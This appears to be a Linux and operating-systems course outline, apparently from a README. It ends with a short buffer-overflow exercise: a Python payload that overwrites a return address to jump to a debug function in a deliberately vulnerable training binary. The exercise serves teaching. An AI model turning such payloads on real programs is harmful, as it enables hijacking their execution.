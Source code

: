 1. Basic Linux commands

   1. ls
   1. cd
   1. pwd
   1. mkdir
   1. rmdir
   1. touch
   1. rm
   1. cp
   1. mv

1. More Linux commands

   1. grep
   1. find
   1. cat
   1. whatis
   1. df
   1. uptime
   1. wget/curl
   1. package management with apt

1. Shell scripting

   1. What is a Shell Script?
   1. How write Your First Shell Script
   1. Variables
   1. User Input
   1. Conditional Statements
   1. Loops
   1. Functions
   1. Script Arguments
   1. Practical Examples

1. User Management

   1. Understanding User and Group Concepts
   1. Creating Users
   1. Managing Passwords
   1. Modifying Users
   1. Deleting Users
   1. Creating and Managing Groups
   1. Viewing User and Group Information
   1. Best Practices

1. Linux file system and file security

   1. chmod
   1. chown

1. Processes creation

   1. top/htop
   1. ps aux
   1. kill

1. Introduction to Threads programming

1. CPU scheduling and scheduling algorithms

   > Mid-Term practical exam (capture the flag)

1. Main memory management

1. Virtual memory management

1. Multithreading/Multi-cores programming

   > Course project
   > Examples: Mini-shell, Custom Kernel, etc...

> \[!NOTE\]
> The Buffer overflow examples
> clone https://github.com/lowlevellearning/secure-server-stuff.git
> objdump -d ./hacked | less and search for the debug func
> add char \*gets(char \*str); // Declare gets() manually to the hacked.c

```python
# 080491e6 = debug address
import sys

payload = b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCEEEE"

payload += b"\x08\x04\x91\xe6"[::-1]

sys.stdout.buffer.write(payload)
```

> (python3 ./exploit.py;cat) | ./hacked
